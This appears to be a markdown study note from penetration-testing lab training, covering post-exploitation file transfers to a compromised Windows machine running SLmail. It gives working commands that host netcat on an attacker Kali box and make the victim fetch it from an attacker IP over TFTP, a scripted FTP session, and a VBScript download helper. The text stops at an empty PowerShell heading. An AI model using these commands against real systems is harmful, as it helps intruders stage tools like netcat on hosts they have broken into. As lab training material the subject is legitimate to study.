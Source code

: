 #File Transfers (Post Exploitation)

## TFTP
Often restricted in corperate networks, contained in windows up to xp/2003 by default has since has been opt in
+ Quick to setup, non-interactive

Linux Box (attacker)
```
root@kali:# mkdir /tftp
root@kali:# atftpd --daemon --port 69 /tftp
root@kali:# cp /usr/share/windows-binaries/nc.exe /tftp/
```

Windows Box (defender)
```
C:\Program Files\SLmail\System>tftp -i 10.11.0.138 GET nc.exe
   tftp -i 10.11.0.138 GET nc.exe
   Transfer successful: 59392 bytes in 18 second(s), 3299 bytes/s
```

## FTP
Often included in windows, has interactive elements so might need to prewrite a script

Linux Box (attacker) - install pure-ftpd, then run `setup-ftp.sh`
```
root@kali:~/Desktop/lessons/slmail# apt-get install pure-ftpd
root@kali:~/Desktop/lessons/filetransfers# ./setup-ftp.sh 
```

Windows Box (defender) - Paste `ftp.txt` into the shell
```
C:\Program Files\SLmail\System>echo offsec>> ftp.txt
C:\Program Files\SLmail\System>echo lab>> ftp.txt
C:\Program Files\SLmail\System>echo bin>> ftp.txt
C:\Program Files\SLmail\System>echo GET test.txt>> ftp.txt
C:\Program Files\SLmail\System>echo bye>> ftp.txt
C:\Program Files\SLmail\System>ftp -s:ftp.txt
```

## VBScript
Often installed we can mimick wget using this script

Linux (attacker)
```
cp exploit.txt /var/www/exploit.txt
service apache2 start
```

Windows (Defender) - Paste `wget-vbs.txt` into the shell then use
```
cscript wget.vbs http://10.11.0.138/test.txt testvbs.txt
```

## Powershell

